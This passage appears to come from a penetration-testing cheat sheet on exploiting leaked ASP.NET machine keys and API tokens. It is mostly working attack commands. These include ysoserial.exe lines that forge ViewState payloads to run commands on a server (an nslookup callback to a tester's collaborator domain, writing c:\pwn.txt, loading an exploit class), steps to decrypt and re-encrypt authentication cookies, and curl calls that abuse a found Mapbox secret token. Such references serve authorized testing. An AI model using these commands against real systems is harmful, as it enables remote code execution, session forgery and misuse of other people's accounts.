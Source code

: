 
#### Generate ViewState for RCE

**NOTE**: Send a POST request with the generated ViewState to the same endpoint, in Burp you should **URL Encode Key Characters** for your payload.

```powershell
$ ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "cmd.exe /c nslookup <your collab domain>"  --decryptionalg="AES" --generator=ABABABAB decryptionkey="<decryption key>"  --validationalg="SHA1" --validationkey="<validation key>"
$ ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "echo 123 > c:\pwn.txt" --generator="CA0B0334" --validationalg="MD5" --validationkey="b07b0f97365416288cf0247cffdf135d25f6be87"
$ ysoserial.exe -p ViewState -g ActivitySurrogateSelectorFromFile -c "C:\Users\zhu\Desktop\ExploitClass.cs;C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.dll;C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.Web.dll" --generator="CA0B0334" --validationalg="SHA1" --validationkey="b07b0f97365416288cf0247cffdf135d25f6be87"

$ viewgen --webconfig web.config -m CA0B0334 -c "ping yourdomain.tld"
```


#### Edit cookies with the machine key

If you have the machineKey but the viewstate is disabled.

ASP.net Forms Authentication Cookies : https://github.com/liquidsec/aspnetCryptTools

```powershell
# decrypt cookie
$ AspDotNetWrapper.exe --keypath C:\MachineKey.txt --cookie XXXXXXX_XXXXX-XXXXX --decrypt --purpose=owin.cookie --valalgo=hmacsha512 --decalgo=aes

# encrypt cookie (edit Decrypted.txt)
$ AspDotNetWrapper.exe --decryptDataFilePath C:\DecryptedText.txt
```

### Mapbox API Token
A Mapbox API Token is a JSON Web Token (JWT). If the header of the JWT is `sk`, jackpot. If it's `pk` or `tk`, it's not worth your time.
```
#Check token validity
curl "https://api.mapbox.com/tokens/v2?access_token=YOUR_MAPBOX_ACCESS_TOKEN"

#Get list of all tokens associated with an account. (only works if the token is a Secret Token (sk), and has the appropiate scope)
curl "https://api.mapbox.com/tokens/v2/MAPBOX_USERNAME_HERE?access_token=YOUR_MAPBOX_ACCESS_TOKEN"
```

## References

* [Finding Hidden API Keys & How to use them - Sumit Jain - August 24, 2019](https://medium.com/@sumitcfe/finding-hidden-api-keys-how-to-use-them-11b1e5d0f01d)
* [Private API key leakage due to lack of access control - yox - August 8, 2018](https://hackerone.com/reports/376060)
* [Project Blacklist3r - November 23, 2018 - @notsosecure](https://www.notsosecure.com/project-blacklist3r/)
* [Saying Goodbye to my Favorite 5 Minute P1 - Allyson O'Malley - January 6, 2020](https://www.allysonomalley.com/2020/01/06/saying-goodbye-to-my-favorite-5-minute-p1/)
* [Mapbox API Token Documentation](https://docs.mapbox.com/help/troubleshooting/how-to-use-mapbox-securely/)

